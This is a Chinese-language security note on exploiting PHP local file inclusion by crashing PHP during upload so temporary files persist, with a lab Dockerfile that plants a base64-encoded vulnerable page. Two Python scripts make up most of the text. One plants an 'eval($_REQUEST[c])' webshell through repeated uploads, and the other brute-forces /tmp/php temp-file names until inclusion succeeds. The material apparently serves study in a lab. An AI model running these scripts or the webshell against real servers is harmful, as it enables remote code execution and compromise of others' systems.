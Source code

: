 参考：
- https://www.jianshu.com/p/dfd049924258

php中上传文件，会创建临时文件。在linux下使用/tmp目录，而在windows下使用c:\winsdows\temp目录。在临时文件被删除之前，利用竞争即可包含该临时文件。

[利用core dumped错误可以实现](PHP7的2个core_dumped错误.md)

参考：
- https://chybeta.github.io/2017/10/08/php%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB%E6%BC%8F%E6%B4%9E/

### 环境

因为php在最新的php7.X中都进行修复了。所以我们从php官网手动下载php小版本进行测试。
所以就用Docker制作了php7210的环境然后commit并push到dockerhub上了，名字为：`j7ur8/php7012_apache2:origin`
```bash
FROM j7ur8/php7012_apache2:origin

RUN rm  /usr/local/apache2/htdocs/index.php


RUN echo 'PD9waHAKICAoJF89QCRfR0VUWydvcmFuZ2UnXSkgJiYgQHN1YnN0cihmaWxlKCRfKVswXSwwLDYpID09PSAnQDw/cGhwJyA/IGluY2x1ZGUoJF8pIDogaGlnaGxpZ2h0X2ZpbGUoX19GSUxFX18pOw==' | base64 -d > /usr/local/apache2/htdocs/index.php
RUN chmod -R 777 /usr/local/apache2/htdocs

CMD /usr/local/apache2/bin/apachectl -k start & /bin/bash -c "while true;do echo hello docker;sleep 1;done"
```

### 利用

![](/images/19-6-15_PHP_包含临时文件1.png)
利用思路就是在文件上传时，使php停止运行。这时就不会删除临时文件。而生成的临时文件的数量是可控的。所以我们可以通过爆破得到shell文件。

作者写的利用脚本
```py
import requests
import string

charset = string.digits + string.letters

host = "172.20.10.5"
port = 82
base_url = "http://%s:%d" % (host, port)


def upload_file_to_include(url, file_content):
    files = {'file': ('evil.jpg', file_content, 'image/jpeg')}
    try:
        response = requests.post(url, files=files)
    except Exception as e:
        print e


def generate_tmp_files():
    webshell_content = '<?php eval($_REQUEST[c]);?>'.encode(
        "base64").strip().encode("base64").strip().encode("base64").strip()
    file_content = '<?php if(file_put_contents("/tmp/ssh_session_HD89q2", base64_decode("%s"))){echo "flag";}?>' % (
        webshell_content)
    phpinfo_url = base_url+"/index.php?orange=php://filter/convert.quoted-printable-encode/resource=data://,%bfAAAAAAAAFAAAAAAAAAAAAAA%ff%ff%ff%ff%ff%ff%ff%ffAAAAAAAAAAAAAAAAAAAAAAAA"
    length = 6
    times = len(charset) ** (length / 2)
    for i in xrange(times):
        print "[+] %d / %d" % (i, times)
        upload_file_to_include(phpinfo_url, file_content)


def main():
    generate_tmp_files()


if __name__ == "__main__":
    main()
```

爆破文件名
```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-

import requests
import string

charset = string.digits + string.letters

host = "172.20.10.5"
port = 82
base_url = "http://%s:%d" % (host, port)


def brute_force_tmp_files():
    for i in charset:
        for j in charset:
            for k in charset:
                for l in charset:
                    for m in charset:
                        for n in charset:
                            filename = i + j + k + l + m + n
                            url = "%s/index.php?orange=/tmp/php%s" % (
                                base_url, filename)
                            print url
                            try:
                                response = requests.get(url)
                                if 'flag' in response.content:
                                    print "[+] Include success!"
                                    return True
                            except Exception as e:
                                print e
    return False


def main():
    brute_force_tmp_files()

if __name__ == "__main__":
    main()
```